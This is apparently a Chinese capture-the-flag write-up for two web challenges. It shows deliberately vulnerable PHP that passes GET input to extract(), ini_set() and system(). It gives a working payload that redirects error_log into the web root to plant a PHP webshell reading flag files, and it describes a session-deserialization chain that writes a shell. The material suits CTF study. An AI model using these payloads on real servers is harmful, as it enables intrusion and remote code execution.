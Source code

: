 ## 红包挑战
### 7
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-08-08 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2023-08-08 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


highlight_file(__FILE__);
error_reporting(2);


extract($_GET);
ini_set($name,$value);


system(
    "ls '".filter($_GET[1])."'"
);

function filter($cmd){
    $cmd = str_replace("'","",$cmd);
    $cmd = str_replace("\\","",$cmd);
    $cmd = str_replace("`","",$cmd);
    $cmd = str_replace("$","",$cmd);
    return $cmd;
}


```

使用`ini_set`设置`error_log`到web目录,同时传入1来报错写马

`?name=error_log&value=/var/www/html/1.php&1=%00<?php system("cat /f*");?>`

### 9
session反序列化+写shell
> 语句session_decode($_GET['token']);往session里面存放对象
> 语句$data = $_SESSION['user'];往session里面拿取对象，拿取名字为user的对象。

---
> 1、fast-destruct先触发application::\_\_destruct()，最终调用到mysql_helper::get_pdo()方法
> 
  2、把mysql_helper类的$db属性设置为空，使得mysql_helper::get_pdo()方法连接数据库失败，执行die()函数，结束所有对象的生命周期（主要是结束了userLogger，GC回收），导致提前执行了userLogger::\_\_destruct()写马到文件。
